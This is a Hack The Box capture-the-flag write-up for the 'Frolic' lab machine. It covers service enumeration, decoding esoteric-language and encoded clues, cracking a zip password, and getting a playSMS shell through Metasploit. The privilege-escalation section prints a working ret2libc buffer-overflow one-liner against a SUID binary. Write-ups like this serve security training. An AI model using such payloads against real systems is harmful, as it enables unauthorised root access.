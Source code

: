 ```yaml
---
title: 'HTB: Frolic'
date: '2025-04-26'
excerpt: ''
readingTime: 4
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Medium', 'Linux', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/frolic-cover.png'
---
```


# FROLIC
## Info

IP Address: 10.10.10.111  
OS: Linux  
Difficulty: Medium  

## System Enumeration

### NMAP
![Nmap](/images/htb/machines/Frolic/frolicnmap.png "NMAP")

We see two different ports that we can access, `1880` and `9999`

### Port 1880: Node-RED service
![Coloured Service](/images/htb/machines/Frolic/frolicRED.png "RED Service")

### Port 9999: nginx service
![nginx](/images/htb/machines/Frolic/frolicnginx.png "NGINX")

## Enumerating Port 9999 with Dirbuster

I used the dirb wordlists `big.txt`
![dirbuster](/images/htb/machines/Frolic/frolicdirbuster.png "Dirbuster")

Looking up all areas with response code 200, which we can access without restrictions

### /admin/

#### Source Code 

##### /login.js/

username: admin
password: superduperlooperpassword_lol

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.?
!.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? .....
..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?...
..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !....
..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!!
!!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?!
!.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!!
!!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!!
!!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?..
..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?. 
```

A quick lookup shows that this is the Ook! language.
Using an online decoder, we achieve 
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
Opening up `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` , we get:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3
h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA 
```

This looks like base64 encoding. Using `https://www.freeformatter.com/base64-encoder.html` and downloading the resulting zip, we see that its locked. Using fcrackzip to crack zip passwords, we get

![Password ZIP](/images/htb/machines/Frolic/froliczip.png "Locked Zip")
![Using FCrackZip](/images/htb/machines/Frolic/frolicfcrack.png "FCrackZip")

Opening up `index.php`, we get
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b797367
4b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c53
30674c5330754c5330674c5330744c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c543474
4c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c53467504373724b3173674c5434744c5330675046
302b4c5330674c5330744c53467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```
which seems to be hex code, translating hex to ascii
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```
which is easily identified as base64, decoding this
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```
A quick google search shows that this is brainfuck, decoding which gets us a string `idkwhatispass`

This string did not work as password on the `RED` service so I tried enumerating again with a different wordlist, which gave me a new directory

### /playsms/
![PlaySMS](/images/htb/machines/Frolic/frolicplaysms.png "PlaySMS")
Using the username `admin` and password `idkwhatispass`, we logged in

![Admin Panel](/images/htb/machines/Frolic/frolicplaysmslogin.png "LoggedIn Playsms")

Using metasploit, I was able to gain a reverse shell through playsms service

![MSFConsole](/images/htb/machines/Frolic/frolicplaysmsexploit.png "Metasploit")
![Rev Shell Obtained](/images/htb/machines/Frolic/frolicrshell.png "Reverse Shell")

## User Exposed
![User Exposed](/images/htb/machines/Frolic/frolicuser.png "User")

Finally got user

## Privilege Escalation

Following simple steps to check for escalation, I first check for SUID binaries in the system which can be exploited to escalate privileges:

![./ROP Found](/images/htb/machines/Frolic/frolicsuid.png "SUID rop found")

Finding `rop` means we can exploit it using ret2lib attack and gain root. Downloaded the binary to my local machine(by using the `download <file>` command in meterpreter) to debug it using gdb-peda.

### Using gdb-peda
Step 1: Creating a pattern of 100 characters
      `pattern_create 100`
      `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL`
Step 2: Finding buffer limit using pattern offset.

![pattern_offset](/images/htb/machines/Frolic/frolicpatternfound.png "Finding offset")

### Using libc-search

Step 1: Use `ldd rop` to find what library its using  
Step 2: Add gcc library to $PATH, using `export PATH = /usr/lib/gcc/i686-linux-gnu/:/sbin:/bin:/usr/sbin:/usr/bin`  
Step 3: Upload libc-search.c to server (https://0xdeadbeef.info/code/libc-search.c)  
Step 4: `gcc libc-search.c -o libc-search -lc -ldl`  
Step 5: Search for system, exit using -s   
Step 6: Search for /bin/sh using -p (set libbase using -b)  

![LIBC-Search](/images/htb/machines/Frolic/froliclibc.png "Libc Enumeration")

### Creating Payload
The addresses are converted to little endian.

![Address List](/images/htb/machines/Frolic/frolicadd.png "Address List")

Now, we simply create a python one-line payload to pass as our argument to the `rop` binary.
```
python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"'
```
### Root Obtained

Running
```
./rop $(python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"')
```
We obtain root

![Pwnage](/images/htb/machines/Frolic/frolicroot.png "Rooted")

